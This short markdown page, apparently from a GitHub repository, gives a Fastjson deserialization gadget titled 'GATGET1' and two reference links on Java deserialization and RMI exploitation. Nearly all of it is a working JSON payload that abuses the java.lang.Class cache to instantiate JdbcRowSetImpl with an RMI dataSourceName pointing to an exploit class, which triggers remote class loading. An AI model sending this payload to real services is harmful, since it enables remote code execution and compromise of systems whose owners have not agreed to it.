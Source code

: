 ## GATGET1

```
{
 "name":{
    "@type":"java.lang.Class",
    "val":"com.sun.rowset.JdbcRowSetImpl"
	},
 "xxxx":{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://127.0.0.1:8899/vul.Exploit",
    "autoCommit":true
    }
}
```
#reference
- [分析](https://www.anquanke.com/post/id/181874)
- [RMI 利用](https://kingx.me/Exploit-Java-Deserialization-with-RMI.html)

